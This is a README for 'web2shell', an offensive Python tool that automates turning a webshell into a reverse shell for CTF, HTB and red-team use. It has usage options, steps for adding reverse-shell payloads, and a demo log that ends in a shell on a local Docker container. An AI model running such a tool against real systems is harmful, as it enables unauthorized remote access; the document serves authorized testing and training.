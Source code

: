 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell [-h] [-i INTERFACE] [--force] [--ip IP] [--port PORT] [--nc NC] [--verbose] url

Automate converting webshells into reverse shells.

positional arguments:
  url                   webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        the interface to use when listening for a remote shell. Default is localhost.
  --force               force command execution even if initial check is invalid
  --ip IP               IP address of your own listener (skips listener setup if both IP and port are set)
  --port PORT           port of your own listener
  --nc NC               path to local nc binary
  --verbose             verbose command output
```

Providing an IP and port will cause the program to skip the listener setup and assume you already have netcat/a comparable listener running at that address.

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't (it might not be in your `$PATH`), please specify the path to the binary with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`. If the payload specifies the shell replace it with `SHELLHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py -i docker0 http://127.0.0.1:8080/cmd.php?cmd=SHELL

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                      @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] docker0
[-] br-a193929c6ae4
[-] veth57bc03a
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[x] 1025 already in use or unavailable.
[-] 1026 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1026...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1026
Ncat: Listening on 0.0.0.0:1026
[-] perl found at /usr/bin/perl
[-] perl found at /usr/bin/perl5.32-x86_64-linux-gnu
[-] php found at /usr/local/bin/php
[-] python found at /usr/bin/python3.9
[-] ruby found at /usr/bin/ruby2.7
[-] ruby found at /usr/bin/ruby
[-] go found at /usr/bin/go
Finding shells...
[-] bash found at /bin/bash
[-] sh found at /bin/sh
Executing reverse shell...
Bins to test: 7
Shells to test: 2
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:44590.
www-data@122099e5b76d:/var/www/html$
```
